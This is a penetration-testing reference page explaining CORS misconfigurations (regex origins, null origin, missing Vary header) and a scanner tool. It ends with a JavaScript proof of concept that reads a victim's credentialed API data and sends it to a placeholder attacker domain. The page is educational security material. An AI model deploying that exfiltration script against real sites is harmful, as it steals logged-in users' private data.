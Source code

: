 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins. 

> [!TIP]
> The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:

![](assets/CORS.png)

#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:

![](./assets/misconfigs.png)
<div class="caption">https://github.com/chenjj/CORScanner</div>

> [!WARNING]
> The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):
>
> * `Access-Control-Allow-Credentials: true`
> * `Access-Control-Allow-Origin: *`

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

> [!TIP]
> It is advised to use the verbose option `-v` to see the tests.

> [!WARNING]
> It is possible to customize the third parties origins in the file `origins.json`.

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## Resources

[https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[https://www.jianjunchen.com/publication/an-empirical-study-of-cors/](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)
